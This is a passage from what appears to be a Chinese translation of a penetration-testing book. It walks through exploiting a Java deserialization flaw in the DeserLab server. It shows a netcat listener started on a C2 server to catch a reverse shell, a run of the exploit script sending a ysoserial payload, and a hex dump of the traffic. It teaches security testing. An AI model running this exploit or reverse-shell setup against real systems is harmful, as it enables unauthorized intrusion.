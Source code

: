 ```
print "[+] Done."
```

在启动漏洞利用之前，我们必须确保在我们的 C2 服务器`c2.spider.ml`上的端口`443`上运行着 netcat 监听器。如果漏洞利用成功，我们应该能够获取 DeserLab 服务器的 Shell 访问权限。

我们可以使用以下命令在端口`443`上启动一个 netcat 服务器：

```
**root@**
**spider-c2-1:~# nc -lvp 443**
**listening on [any] 443 ...**

```

剩下的就是在我们的攻击机上运行 Python 脚本，并期待最佳结果：

```
**root@kali:~/tools# python exploit_deserlab.py**
**[+] Reading payload file...**
**[+] Sending payload...**
**Done.**
**root@kali:~/tools#**

```

如果我们检查生成的流量，我们可以看到协议初始化和测试字符串数据包，紧接着是由 ysoserial 生成的序列化对象，这些对象由`0x73 0x72`或`sr`字节标识：

![反序列化漏洞](img/B09238_08_11.jpg)

```
**0000000A  77 02                                              w.**
 **0000000C  01 01                                              ..**
**0000000C  01 01                                              ..**
**0000000E  77 06 00 04 74 65 73 74  73 72 00 32 73 75 6e 2e   w...test sr.2sun.**
**0000001E  72 65 66 6c 65 63 74 2e  61 6e 6e 6f 74 61 74 69   reflect. annotati**
**[...]**
**000007EE  00 00 00 00 00 00 00 00  00 00 78 70               ........ ..xp**

```

在进一步分析数据包捕获时，我们注意到服务器响应中有一些有趣的内容：
